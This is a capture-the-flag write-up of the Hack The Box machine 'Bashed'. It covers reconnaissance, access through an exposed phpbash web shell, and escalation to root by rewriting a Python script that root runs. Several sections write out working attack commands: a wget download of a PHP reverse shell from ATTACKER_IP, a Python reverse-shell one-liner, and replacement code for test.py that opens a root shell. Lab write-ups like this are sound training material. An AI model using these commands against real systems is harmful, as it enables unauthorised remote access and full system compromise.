# Bashed - Hack The Box Writeup

## Overview

* Machine: Bashed
* Difficulty: Easy
* Platform: Hack The Box
* IP: 10.129.5.189

---

## Reconnaissance

We start with an Nmap scan:

```bash
nmap -sC -sV --min-rate=1000 10.129.5.189
```



### Result:

* 80/tcp → Apache 2.4.18 (Ubuntu)

Only a web service is exposed, so we proceed with web enumeration.

---

## Web Enumeration

Opening the website shows a development page mentioning a tool called **phpbash**.



To discover hidden directories, we use:

```bash
feroxbuster -u http://10.129.5.189 -x php,html,txt -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -C 404,403
```



This reveals:

```
/dev/phpbash.php
```

---

## Initial Access

Accessing:

```
http://10.129.5.189/dev/phpbash.php
```



We obtain a web-based shell as.

```
www-data
```

---

## User Flag

We begin by enumerating the system and checking user directories:

```bash
cd /home/arrexel
cat user.txt
```



User flag obtained.

---

## Privilege Enumeration

Check current privileges:

```bash
id
```


Then check sudo permissions:

```bash
sudo -l
```



### Finding:

* User `www-data` can run commands as `scriptmanager` without a password

---

## Reverse Shell (PHP)

We attempt to get a better shell.

### Setup listener

```bash
nc -lvnp 1234
```

### Start HTTP server

```bash
python3 -m http.server 8000
```

### Download shell

```bash
wget http://ATTACKER_IP:8000/php-reverse-shell.php
```

### Execute

```bash
php php-reverse-shell.php
```



We obtain a shell as `www-data`.

---

## Privilege Escalation

Navigate to scripts directory:

```bash
cd /scripts
ls -la
```



### Observation:

* `test.py` → owned by scriptmanager
* `test.txt` → owned by root
* `test.txt` was recently modified

### Insight:

Since `test.txt` is owned by root but updated by `test.py`, it indicates that:

* `test.py` is executed by root
* Modifying it will result in code execution as root

---

## Shell Stability Issue

At this stage, the PHP shell was unstable:

* Commands were unreliable
* Editing files was difficult

To proceed efficiently, we switched to a Python-based reverse shell.

---

## Alternative Reverse Shell (Python)

```bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ATTACKER_IP",1235));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/sh","-i"]);'
```

---

## Shell Upgrade

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
stty rows 40 columns 120
```

Now the shell is fully interactive.

---

## Switch User

```bash
sudo -u scriptmanager /bin/bash
```

---

## Exploitation

Modify `test.py`:

```bash
cat << EOF > test.py
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("ATTACKER_IP",1235))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
subprocess.call(["/bin/sh","-i"])
EOF
```

---

## Root Access

Start listener:

```bash
nc -lvnp 1235
```

We receive a shell as:

```
root
```



---

## Root Flag

```bash
cd /root
cat root.txt
```



---

## Lessons Learned

* Enumeration order depends on attacker workflow
* Hidden development tools can lead to initial access
* Shell stability is critical during exploitation
* Misconfigured sudo permissions are dangerous
* Writable scripts executed by root lead to full compromise

---

## Conclusion

This machine demonstrates a realistic attack chain from web access to root compromise through misconfiguration and weak permissions.

---

## Tags

Web, RCE, Privilege Escalation, Linux, Easy
